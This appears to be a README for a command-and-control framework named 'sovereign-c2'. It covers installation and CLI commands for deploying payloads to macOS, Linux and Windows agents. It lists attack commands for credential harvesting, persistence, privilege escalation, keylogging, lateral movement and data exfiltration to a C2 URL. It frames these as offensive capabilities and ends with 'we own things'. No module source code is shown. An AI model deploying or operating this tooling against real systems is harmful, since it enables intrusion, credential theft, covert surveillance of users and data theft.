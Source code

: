 This is the start of a c2 server and client (currently windows) deployment. It's from our community as a whole. More functionality to follow in due course.


# Installation and Setup

Clone the repository git clone https://github.com/4lph4-01/share

Create a Virtual Environment python -m venv venv within the sovereign-c2 directory

source venv/bin/activate (in a new terminal e.g. source venv/bin/activate in the same directory, but separate terminal window). Results of the initial supported powershell commands sent will output to the check-in terminal window.

On Windows, use venv\Scripts\activate

Install Dependencies pip install -r requirements.txt

Prepare Payloads (If necessary) Ensure your payload scripts are in the payloads directory: payloads/macos_payload.sh (Work in progress) payloads/linux_payload.sh (Work in progress) payloads/windows_payload.ps1 (Work in progress)

Running the C2 Server

python c2_server/c2_server.py CLI Usage

List Agents python cli/cli.py list-agents

Deploy Payload python cli/cli.py deploy-payload <agent_type> Replace <agent_type> with macos, linux, or windows.

Select and Send Commands to an Agent python cli/cli.py select-agent You can specify the agent ID directly or choose from a list of available agents.

Generate Report python cli/cli.py generate-report

Send a Specific Command python cli/cli.py send-command <agent_id>

Supported Commands

Credential Harvesting python cli/cli.py send-command <agent_id> cred_harvest

Persistence python cli/cli.py send-command <agent_id> persistence

Privilege Escalation python cli/cli.py send-command <agent_id> priv_escalation

Reconnaissance python cli/cli.py send-command <agent_id> reconnaissance

Data Exfiltration python cli/cli.py send-command <agent_id> exfiltrate <file_path> <c2_url> Replace <file_path> and <c2_url> with the actual file path and C2 URL.

Keylogging python cli/cli.py send-command <agent_id> keylogging

Lateral Movement python cli/cli.py send-command <agent_id> lateral_movement Modules Directory Structure Ensure you have a modules directory with the following structure and content: modules/ cred_harvest.py persistence.py priv_escalation.py reconnaissance.py exfiltration.py keylogging.py lateral_movement.py

# By the way, we own things.....
